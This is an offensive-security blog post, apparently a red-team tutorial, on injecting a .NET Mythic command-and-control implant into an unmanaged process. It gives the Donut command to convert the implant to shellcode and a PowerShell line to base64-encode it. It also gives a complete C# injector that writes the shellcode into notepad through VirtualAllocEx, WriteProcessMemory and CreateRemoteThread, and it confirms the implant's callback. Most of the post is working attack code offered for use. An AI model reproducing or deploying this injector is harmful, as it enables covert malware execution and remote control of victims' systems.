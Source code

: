 This is a quick post to show how you can inject your .NET assembly code to unmanaged processes.

### Generate the ShellCode

As an example, I will be using a Mythic implant. But feel free to develop your own payload.

For this task we will use the Donut project, you can read more about it [here.](https://github.com/TheWover/donut)

The syntax is very simple, we need to indicate our payload (-f), the Class preceded by the Namespace (c) and the method to be executed (m). You can specify the system architecture (-a), with 1 for x86 and 2 for amd64:

```powershell
.\donut.exe -f .\atlas_callback.exe -c Atlas.Program -m Main -a 2
```
![](/images/2021-02-10-10-20-35.png)

If all goes well, the file "payload.bin" will be created in the local folder of the project.

![](/images/2021-02-10-10-23-41.png)

This file can already be used in the injection process, but let's do it differently. We will convert the file to Base64 and place it within our code, so we don't need to reference a file inside our final code.

```powershell
[Convert]::ToBase64String([IO.file]::ReadAllBytes((get-location).path + "\payload.bin")) | out-file payload.b64
```
![](/images/2021-02-10-10-29-18.png)
### Process Injection

The code below is a basic implementation of process injection, using _VirtualAllocEx_, _WriteProcessMemory_ and _CreateRemoteThread_. I added a few lines to receive our payload in the necessary format and that's it.

Replace your Base64 payload in the code below and remember to start the chosen process as a target.

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.IO;
using System.Diagnostics;

namespace Injection {
    class Program {
    
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        public static void Main(string[] args) {

            string s = @"<B64PAYLOAD>";
            byte[] buf = Convert.FromBase64String(s);
            
            Process[] npProc = Process.GetProcessesByName("notepad");
            int pid = npProc[0].Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)buf.Length, 0x00002000 | 0x00001000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        }
    }
}
```
If all goes well, your code will be executed within the target process.

In my case, I can confirm by looking at the callback in Mythic and crossing with the PID of the target process:

![](/images/2021-02-10-10-45-49.png)
![](/images/2021-02-10-10-42-09.png)

Happy Hacking!
